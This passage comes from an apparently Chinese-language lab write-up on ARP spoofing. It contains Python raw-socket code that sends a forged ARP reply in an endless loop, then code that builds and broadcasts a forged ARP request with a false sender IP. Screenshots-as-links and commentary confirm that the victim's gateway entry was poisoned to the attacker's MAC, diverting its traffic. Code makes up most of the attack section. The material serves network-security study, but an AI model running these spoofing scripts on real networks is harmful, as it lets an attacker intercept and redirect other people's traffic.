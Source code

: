 ```python
# 绑定到指定的网络接口
raw_socket.bind(("ens33", 0))
print(arp_attact.packet.hex())
while True:
    print("attacking...")
    raw_socket.send(arp_attact.packet)
    time.sleep(3)
```

运行截图：

![p9fy5QI.png](https://s1.ax1x.com/2023/05/18/p9fy5QI.png)

wireshark抓包结果：

![p9fyIyt.png](https://s1.ax1x.com/2023/05/18/p9fyIyt.png)

不断向物理机灌输错误理念（

arp -a查看ARP缓存表：

![p9fyWJH.png](https://s1.ax1x.com/2023/05/18/p9fyWJH.png)

网关和攻击者的MAC地址已经一样了，达到了攻击目的，此时物理机向网关发送的一切数据都会错误发送到攻击者设备上

一段时间后，MAC的重复缓存被发现：

![p9fyoOP.png](https://s1.ax1x.com/2023/05/18/p9fyoOP.png)

网关的ARP记录被自动删除，达到修复的目的

![p9fy7ef.png](https://s1.ax1x.com/2023/05/18/p9fy7ef.png)



## ARP攻击测试-伪造请求

在ARP帧中的sender IP和sender MAC字段写入错误数据

由于此时网关ARP数据已经被缓存，使用伪造请求注入错误网关会导致缓存重复，会被自动删除，这里使用一个并没有被使用的IP：`192.168.237.111`

```python
ip_target = "192.168.237.1"
# 获取本机信息
ipv4, mac = get_net_info()
print(f'本机IP: {ipv4}\n本机MAC: {mac}\n目标IP:{ip_target}')
ipv4_self = toHex(0, "192.168.237.111")
mac_self = toHex(1, mac)
# arp请求
arp_request = ARP(b'\xff\xff\xff\xff\xff\xff',  # 广播
                  mac_self,
                  b'\x00\x01',  # 操作码：请求
                  mac_self,  #错误的sender MAC，这里为攻击者的MAC地址
                  ipv4_self,  # 错误的sender IP，这里为网关IP地址
                  b'\x00\x00\x00\x00\x00\x00',  # 未知
                  toHex(0, ip_target))  # 目标IP地址
# arp_request.packets()

# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
# 绑定到指定的网络接口
raw_socket.bind(("ens33", 0))
raw_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
raw_socket.send(arp_request.packet)
```

